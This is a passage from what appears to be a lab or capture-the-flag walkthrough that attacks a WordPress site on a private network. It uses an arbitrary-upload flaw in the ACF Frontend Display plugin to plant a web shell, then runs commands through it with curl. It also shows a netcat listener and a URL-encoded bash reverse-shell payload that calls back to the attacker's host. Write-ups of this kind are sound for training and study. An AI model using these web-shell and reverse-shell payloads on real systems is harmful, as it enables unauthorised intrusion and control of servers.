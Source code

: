 ![evidence](./static/14-webshell.png)

When I send the `id` command with the `curl` command:
```shell
$ curl \
> "http://192.168.56.107/zhkh/wp-content/uploads/uigen_2023/ws.php?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I can conclude that `ACF Frontend Display` plugin is vulnerable, and despite `WPScan` did not identify any plugin, and it allows me to upload an arbitrary file, and `WordPress` will execute it.

## Exploitation
User password in the `wp-config` file and escalate with the sudo privileges.

Given I can access http://192.168.56.107, and I identify the endpoint `/zhkh/`, and it contains a `WordPress` site, and I was able to redirect traffic to fix `WordPress` requests, and I find a vulnerability in the plugin `ACF Frontend Display 2.0.5`, and it allows me to upload arbitrary files, and I could upload a web shell, then I will try to perform a reverse shell.

When I open a listener with the `nc` command:
```shell
$ nc -lnvp
```
And I send the reverse shell payload with the `curl` command:
```shell
$ curl \
> "http://192.168.56.107/zhkh/wp-content/uploads/uigen_2023/ws.php?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.56.101/1234%200>%261'"
```
Then it works:

![evidence](./static/15-reverseshell.png)
